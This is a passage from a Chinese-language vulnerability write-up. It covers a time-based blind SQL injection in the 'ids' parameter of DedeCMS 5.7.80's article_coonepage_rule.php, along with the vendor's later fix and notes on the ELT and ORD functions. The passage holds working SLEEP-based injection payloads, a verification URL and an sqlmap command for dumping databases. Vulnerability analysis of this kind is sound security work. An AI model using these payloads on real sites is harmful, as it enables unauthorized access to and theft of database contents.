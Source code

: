 - 那就试试盲注了，先构造试一下

```sql
ids=(SELECT%20*%20FROM%20(SELECT(SLEEP(5)))ItPM)
```

结果没有延迟返回

- sqlmap开跑，指定level和注入类型，dump数据库

```bash
python2 sqlmap.py -r ../../dede1.txt -p ids --level 5  --technique T --dbs
```

> 在这之前用的 level2、3、4都没成功，还组合了tamper脚本进行payload编码试图绕过，结果最后发现是要用 **level 5** 才能跑出来

![Untitled 27.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-7573bb1683c2abcda0e996a45359f154163975eb.png)

最后是用`ELT` 跑出来的盲注

附上验证payload

```sql
/DedeCMS-5.7.80/dede/article_coonepage_rule.php?action=del&ids=ELT(3337>3336,SLEEP(5))
```

数据库

```sql
ids=ELT(ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS NCHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),1,1))!=116,SLEEP(3))
```

其他类推

0x04 修复
=======

看一下后续版本修复的代码

![Untitled 28.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e2777f4e79e33d64a6cd4859859a8f883746121e.png)

将传入的`$ids`转换为变量，防止字符拼接，另外对多选删除部分的代码用 `explode` 函数转换成数组再遍历，将各个值分隔开，防止拼接、闭合等注入

0x05 扩展——payload中涉及到的sql函数
==========================

- **ELT**

```sql
用法: ELT(N,str1,str2,str3,...)
```

如果N =1返回str1，如果N= 2返回str2，等等。如果参数的数量小于1或大于N，返回NULL。

- ORD

```sql
用法: ORD(str)
```

如果该`str`是多字节（指的是multi-byte character set即MBCS，字符的大小是可变的；一个MBCS编码包含一些一个字节长的字符，而另一些字符大于一个字节的长度），MySQL ORD() 返回最左边字符的代码。如果最左边的字符不是多字节字符，ORD() 将返回与 ASCII() 函数相同的值。
